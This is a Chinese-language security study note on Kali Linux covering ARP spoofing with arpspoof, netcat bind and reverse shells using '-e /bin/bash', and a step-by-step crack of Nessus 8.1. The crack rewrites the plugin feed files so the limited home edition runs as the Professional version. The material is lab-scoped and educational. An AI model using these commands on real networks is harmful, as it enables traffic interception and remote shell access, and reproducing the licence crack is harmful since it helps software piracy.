## ARP攻击及原理

Kali Linux是基于Debian的Linux发行版， 设计用于数字取证操作系统.


 ### <font color =#B22222 size=1>ARP欺骗原理及复现</font>
* <font color =#FF4500 >什么ARP协议</font><br>

    即地址解析协议，是根据IP地址解析物理地址的一个TCP/IP协议。主机将包含目标IP地址信息的ARP请求广播到网络中的所有主机，并接收返回消息，以此确定目标IP地址的物理地址；收到返回消息后将该IP地址和物理地址存入本机ARP缓存中并保留一定时间，以便下次请求时直接查询ARP缓存以节约资源.<br>
    <font color =#FF0000>(工作在数据链路层)</font>
*   <font color =#FF4500 size=9px>ARP欺骗</font><br>

    是针对以太网地址解析协议（ARP）的一种攻击技术，通过欺骗局域网内访问者PC的网关MAC地址，使访问者PC错以为攻击者更改后的MAC地址是网关的MAC，导致网络不通。此种攻击可让攻击者获取局域网上的数据包甚至可篡改数据包，且可让网络上特定计算机或所有计算机无法正常连线。<br>
    
   <center> arp攻击原理</center>
<figure class="thumbnails">
    
    
</figure>

### <font color =#B22222 size=1>ARP欺骗复现</font>

#### 实验环境：
  
  - Kali LInux
  - window7
  - 局域网内
  - arpspoof(kali自带)
```IP
win7      192.168.2.207
kali      192.168.2.244
注：目标主机（win7）ping一下百度确定能够上网
```
  * 1.安装dnsiff
```dnsiff是一个著名的网络嗅探工具包，高级口令嗅探工具，综合性网络嗅探工具包
 apt-get install dnsiff      #root用户环境下
```  
  * 2.使用arpspoof
```命令
 arpspoof -i eth0 -t 192.168.1.112 192.168.1.1     
-i 网卡
-t 目标主机Ip  目标主机网管
```
#### <center> Kali</center>  
<figure class="thumbnails">
    
</figure>

#### <center> 目标主机</center>  
<figure class="thumbnails">
    
</figure>


### Arp防御

  - 1. ARP 高速缓存超时设置
  

  在ARP高速缓存中的表项一般都要设置超时值，缩短这个这个超时值能够有用的避免ARP表的溢出。

  - 2. IP+MAC访问操控   -----推荐使用

        单纯依托IP或MAC来树立信赖联系是不安全，抱负的安全联系树立在IP+MAC的根底上，这也是咱们校园网上网有必要绑定IP和MAC的因素之一。

  - 3. 静态ARP缓存表

      每台主机都有一个暂时寄存IP-MAC的对应表ARP攻击就经过更改这个缓存来到达诈骗的意图，运用静态的ARP来绑定正确的MAC是一个有用的办法，在命令行下运用arp -a能够检查当时的ARP缓存表。

  - 4. 自动查询

      在某个正常的时间，做一个IP和MAC对应的数据库，以后定时检查当时的IP和MAC对应联系是否正常，定时检查交流机的流量列表，检查丢包率。

      ARP本省不能形成多大的损害，一旦被联系使用，其风险性就不可估量，因为ARP自身的疑问，使得防备ARP的攻击很棘手，经常检查当时的网络状况，监控流量对一个站长来说是个很好的风气
    
## Nessus 8.1 破解安装
<font color =#FF4500 size=9px> Nessus 是目前全世界最多人使用的系统漏洞扫描与分析软件。总共有超过75,000个机构使用Nessus 作为扫描该机构电脑系统的软件。
</font><br>
 
  ### 软件包下载
      官网下载地址：https://www.tenable.com/downloads/nessus
      官网下载Kali版本下载地址：https://www.tenable.com/downloads/api/v1/public/pages/nessus/downloads/10838/download?i_agree_to_tenable_license_agreement=true

  ### 安装
  - Kali中安装，包下载在哪个目录下就在哪个目录执行：
        dpkg -i Nessus-8.10.0-debian6_amd64.deb
  - 启动nessus
        service nessusd start
  - 在浏览器中访问https://localhost:8834，初始化扫描器，选择Managed Scanner→Managed by Tenable.sc，点击 Continue。
    <figure class="thumbnails">
    
     

</figure>

  - 现在会要求新建账号，自己记住账号密码
  - 等待初始化完成。完成后登陆进去是没有扫描界面的。
     <figure class="thumbnails">
    
    

</figure>

- 接下来获取插件包<BR>kali中默认把nessus安装在/OPT目录下，现在进入目录，执行以下操作，复制并记录challenge code：
      /opt/nessus/sbin/nessuscli fetch --challenge
</figure>
     <figure class="thumbnails">
    
</figure>

- 访问上面输出的网址https://plugins.nessus.org/v2/offline.php，<bR> 把challenge code填入第一个框：
- 接下来获取第二个框的激活码，访问网站https://zh-cn.tenable.com/products/nessus/nessus-essentials，<BR>姓名随便写，邮箱写真实邮箱，用来接受激活码：
- 点击注册后，过大约一分钟左右，邮箱收到邮件，找到激活码，复制：把激活码贴到第二个框，点submit：
</figure>
     <figure class="thumbnails">
    
    
    
    
</figure>

- 注册成功后网页返回更新包的下载链接，在浏览器输入上述链接就可以下载最新插件包：
</figure>
     <figure class="thumbnails">
    

</figure>

- 注册包下载完成后，执行更新操作：
      /opt/nessus/sbin/nessuscli update all-2.0.tar.gz
</figure>
     <figure class="thumbnails">
    

</figure>

- <font color=#8B0000 size=4 >到现在为止，nessus安装完成，但只支持16个IP，接下来进行破解，修改两个文件，没有的话创建一下，再改成下面的内容。</font>
      export PLUGIN_SET="202004281428" 设置一下本次安装的时间
      cat >/opt/nessus/lib/nessus/plugins/plugin_feed_info.inc<<EOF
      PLUGIN_SET = ${PLUGIN_SET};
      PLUGIN_FEED = "ProfessionalFeed (Direct)";

      PLUGIN_FEED_TRANSPORT = "Tenable Network Security Lightning";
      EOF

      cat >/opt/nessus/var/nessus/plugin_feed_info.inc<<EOF
      PLUGIN_SET = ${PLUGIN_SET};
      PLUGIN_FEED = "ProfessionalFeed (Direct)";

      PLUGIN_FEED_TRANSPORT = "Tenable Network Security Lightning";
      EOF
</figure>
     <figure class="thumbnails">
    

</figure>

- 重启nessus
      service nessusd restart
<font color =#FF4500 size=9px>修改上面两个文件是用来把16个IP的家庭版转化成无限制的专业版的，windows平台破解方法同。

注：每次更新完后，上述两个文件都会变回家庭版的配置（因为我们是通过下载家庭版的插件包来进行离线更新的），所以原本是破解的，一更新就又变限制版了，需要重新改成上面的内容。
进行定期自动更
</font><br>

## Netcat—TCP/IP连接的瑞士军刀
    nc -h     #查看帮助命令
<font color = #FF4500>1.使用Netcat程序连接摸个端口，可判断噶一端口是否可受理网络连接</font><BR>
```netcat
-v    #详细输出
nc -v 192.168.2.103 80  #连接162.168.2.103  80端口并详细输出说明
```
<font color = #FF4500>2.也可以使用Netcat程序打开摸个网络端口，受理外部连如的网络连接</font><BR>

```ip：192.168.2.102
nc -lvp 1234   

l 代表监听 (listen)
v 代表详细输出  
p 代表指定端口号

```
<font color = #FF4500>3.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234
```

<font color = #FF4500>4.连接成功后输入hello,world  返回192.168.2.102，发现输出到屏幕上了</font><BR>

### 开放式shell
<font color = #FF4500>1. shell命令受理端功能，在以受理端（监听端口）模式下启动Netcat时候，可以用  -e   选项绑定主机的 sheell (/bin/bash)</font><BR>

```ip 192.168.2.102

nc -lvp 1234 -e /bin/bash

```
<font color = #FF4500>2.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234

此时用可以通过shell执行任意命令（whoami.....）
```

### 反弹式shell
<font color = #FF4500>还可以建立反弹式shell,让shell受理端连入摸个准备发送命令的监听端进程</font><BR>

```ip 192.168.2.102
nc -lvp 1234

```
<font color = #FF4500>1.此时新建一个终端窗口，使用 NetCat连接刚才打开的端口</font><BR>

```ip 192.168.2.103
nc 192.168.2.102 1234 -e /bin/bash

```
<font color = #FF4500>2.上述命令以连入端的模式启动Netcat, -e是在建立连接后执行shell,此时在监听端输入命令，会在连入受理端执行</font><BR>

### 文件传输
    nc -lvp 1234 > file     #使用 > 让接收到的内容显示在文件中，而不是屏幕中
    
    在另一个终端连接这个监听端
    nc 192.168.2.102 1234 < file    #吧这个文件通过Netcat发送过去

### cron进行定时任务
<font color = #FF4500>可以在固定的时间间隔执行指定的胸膛命令</font><BR>
```
ls | grep cron    #显示出的文件分别是每天，每小时，每月，每周

```
